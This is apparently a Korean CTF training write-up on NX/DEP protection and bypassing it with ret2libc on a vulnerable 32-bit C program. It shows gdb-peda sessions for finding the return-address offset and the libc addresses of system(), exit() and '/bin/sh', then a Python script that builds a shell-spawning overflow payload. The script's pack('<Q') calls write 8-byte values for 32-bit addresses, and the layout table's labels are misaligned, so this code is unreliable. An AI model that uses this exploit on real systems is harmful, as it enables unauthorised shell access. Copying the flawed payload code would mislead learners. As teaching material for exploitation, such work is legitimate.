 # NX
Also known as Data Execution Prevention (DEP), this protection marks writable regions of memory as non-executable. This prevents the processor from executing in these marked regions of memory.

If we look at the memory map of a program compiled with NX protection, the stack and heap are typically marked non-executable.

In the following diagrams, we will be introducing a new indicator colour for the memory regions to denote 'writable and non-executable' mapped regions. Firstly, the stack before the read occurs looks like this:

When we perform the same attack, the buffer is overrun and the saved pointers are overwritten once again.

After the function returns, the program will set the instruction pointer to 0xbfff0000 and attempt to execute the instructions at that address. However, since the region of memory mapped at that address has no execution permissions, the program will crash.

Thus, the attacker's exploit is thwarted.

# Vulnerable Program
```
#include <stdio.h>
#include <string.h>

void exploitme(char* input)
{
  char buf[32];
  strcpy(buf, input);
  puts(buf);
}

int main(int argc, char* argv[])
{
  if ( argc < 2 ) return -1;

  exploitme(argv[1]);

  return 0;
}
```

# Bypassing NX with Ret2Libc


![Fig 1. stack][classic1]

## return address 위치 찾기
우선 버퍼의 크기가 소스코드상에서는 32인데, 실제 Overflow 되어서 EIP가 덮어지는 정확한 지점을 알아야 한다.
```
$ gdb -q ./nxstack
Reading symbols from ./nxstack...(no debugging symbols found)...done.
```
gdb-peda에 patter_create 와 patter_offset 기능을 활용하자.
```
gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
```
길이 50의 임의의 패턴을 생성하였다. 이를 복사하여 run 하자.
```
gdb-peda$ r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
Starting program: /home/skcctf/ctf_training/day3/nx/nxstack 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41412941 ('A)AA')
ECX: 0xfbad0084
EDX: 0xb7fcc870 --> 0x0
ESI: 0x2
EDI: 0xb7fcb000 --> 0x1b3db0
EBP: 0x0
ESP: 0xbffff610 ("AA0AAFAAbA")
EIP: 0x61414145 ('EAAa')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x61414145
[------------------------------------stack-------------------------------------]
0000| 0xbffff610 ("AA0AAFAAbA")
0004| 0xbffff614 ("AFAAbA")
0008| 0xbffff618 --> 0xbf004162
0012| 0xbffff61c --> 0x0
0016| 0xbffff620 --> 0x0
0020| 0xbffff624 --> 0x0
0024| 0xbffff628 --> 0xb7fcb000 --> 0x1b3db0
0028| 0xbffff62c --> 0xb7fffc0c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x61414145 in ?? ()
```
현재 SIGSEGV가 발생하여 프로그램이 강제로 종료되었으며 `0x61414145 in ?? ()`라는 구문이 출력되어 있다. 
이는 EIP 레지스터에 해당 값이 들어있기 때문인데, 그 값의 위치에 접근하려다 실패했기 때문이다.
```
gdb-peda$ info register eip
eip            0x61414145	0x61414145
```
그럼 peda가 생성했던 패턴 중 `0x61414145`은 어느 지점에 있었는지를 확인하면 return address 가 위치하는 곳을 알 수 있다.
```
gdb-peda$ pattern_offset 0x61414145
1631666501 found at offset: 36
```
해당 지점은 36이다.

즉, Buffer 가 32로 선언되어있고, 그 뒤에 EBX가 push되어(+4) 36칸을 차지하며 그 뒤로는 Return Address 가 위치해야하는데, 이 부분을 다른 함수의 주소로 덮어씌우면 Return 시에 그 함수를 수행하게 된다.

## system() 의 주소
익스플로잇은 다양한 작업을 목표로 할 수 있지만 여기에서는 system("/bin/sh")를 수행하도록 할 것이다.
먼저 system() 을 수행하기 위해 LibC에서 system()이 어디에 위치했는지 찾자.
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e51b40 <__libc_system>

gdb-peda$ x/s 0xb7e51b40
0xb7e51b40 <__libc_system>:	"\203\354\f\213D$\020\350\061h\016"
```
이로써 `0xb7e51b40`에 system()이 위치한다는 것을 확인하였다.

## /bin/sh
system()의 인자로 전달할 값을 스택에 올려두어야 한다. system("/bin/sh")를 수행하도록 할 것이므로 "/bin/sh"이 어디에 있는지 알아야 한다.
gdb로 대충 아무 부분에 브레이크 포인트 걸어놓고 실행한 상태에서 (동적상태) find 명령어로 "/bin/sh"를 찾자.
```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f748c8 ("/bin/sh")
```
이로써 `0xb7f748c8`에 "/bin/sh"이 위치한다는 것을 확인하였다.

## exit() 주소
system() 함수가 return되고 난 후 jump할 위치를 지정해야 한다.
사실 system("/bin/sh")가 호출되는 순간 이미 exploit에 성공했으므로 이 부분은 적당히 Fake 값으로 대충 "BBBB" 로 채워넣어도 무방하기는 하다.
하지만 차이점이 있다면 쉘 획득 후 작업을 종료하고 나갈 때 Error가 발생한다.
이 부분까지 깔끔하게 처리하고 싶다면 exit()의 주소를 찾은 후 이것을 호출하게 하면 마치 정상적으로 종료되는 것처럼 보이게 할 수 있다.
```
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e457f0 <__GI_exit>

gdb-peda$ x/s 0xb7e457f0
0xb7e457f0 <__GI_exit>:	"\350\204+\017"
```
이렇게 얻은 exit()의 주소는 `0xb7e457f0`이다.

## 종합
스택에 push된 값들은 역순으로 처리된다는 것을 기억해야 한다. 따라서 system()이 수행되고 난 후의 return addr이 먼저 나온다. 그리고 뒤에 system()의 argument인 /bin/sh가 들어간다. 그렇다면 system("/bin/sh")가 수행되고 난 후의 return addr의 내용을 수행하게 된다.

EIP smash = 32 + 4 = 36
system() = 0xb7e51b40
system() return address = BBBB (fake word) or exit() 
/bin/sh = 0xb7f748c8
|---------------------------|-------------------|--------------|---------------|
| 36 A's                    | 0xb7e51b40        |     BBBB     | 0xb7f748c8    |
|---------------------------|-------------------|--------------|---------------|
                       args        EBP                 EIP 

현재로써는 대충 fake값인 BBBB로 설정해두었다. 또는 `0xb7e457f0`으로 exit()를 EIP부분에 넣으면 좋다.

## Exploit code
```
from struct import *

system_addr = 0xb7e51b40 
binsh_addr  = 0xb7f748c8
exit_addr   = 0xb7e457f0

payload = "A" * 32                           # buf

payload += "A" * 4                           # ebx

payload += pack("<Q", system_addr)           # ret addr : system()

#payload += "B" * 4                          # return of system(), fake value (don't care error msg)
payload += pack("<Q", exit_addr)             # to avoid closing error, use exit() func addr

payload += pack("<Q", binsh_addr)            # /bin/sh addr

f = open("in.txt", "w")
f.write(payload)
```



[classic1]: ./nxstack_view.png
